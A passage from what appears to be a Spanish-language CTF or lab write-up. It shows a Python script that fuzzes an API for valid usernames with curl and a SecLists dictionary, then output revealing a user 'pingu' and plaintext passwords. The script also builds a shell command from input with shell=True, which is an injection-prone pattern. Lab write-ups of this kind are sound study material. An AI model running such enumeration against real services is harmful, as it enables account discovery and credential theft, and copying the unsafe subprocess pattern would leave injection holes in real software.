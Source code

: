 ```python

# Función para hacer la solicitud con curl
def check_user(username):
    # Formateamos la URL con el nombre de usuario
    cmd = f"curl -s -X GET \"{url.format(username)}\""
    
    # Ejecutamos el comando curl y obtenemos la salida
    result = subprocess.run(cmd, shell=True, capture_output=True, text=True)

    # Si la respuesta no contiene "User not found", es un usuario válido
    if '"error": "User not found"' not in result.stdout:
        print(f"Usuario válido encontrado: {username}")

# Main
if __name__ == "__main__":
    # Carga el diccionario de usuarios desde el archivo
    file_path = 'diccionario.txt'  # Cambia el nombre si es necesario
    usernames = load_usernames_from_file(file_path)
    
    if usernames:
        # Si el diccionario no está vacío, realizamos el fuzzing
        for username in usernames:
            check_user(username)
    else:
        print("No se cargaron usuarios desde el archivo.")
```

En mi caso utilizare el de `bash`, vamos a utilizar un diccionario de usuario de `SecList` para probar:

## Escalate user pingu

URL = [Diccionario Users SecList](https://github.com/danielmiessler/SecLists/blob/master/Usernames/xato-net-10-million-usernames-dup.txt)

Y lo renombraremos a `users.txt` para que lo pille bien el script, echo esto lo ejecutaremos de la siguiente forma:

```shell
bash findUserAPI.sh
```

Info:

```
Usuario encontrado: pingu
[
  [
    1, 
    "pingu", 
    "your_password"
  ], 
  [
    2, 
    "pingu", 
    "pinguinasio"
  ]
]
```
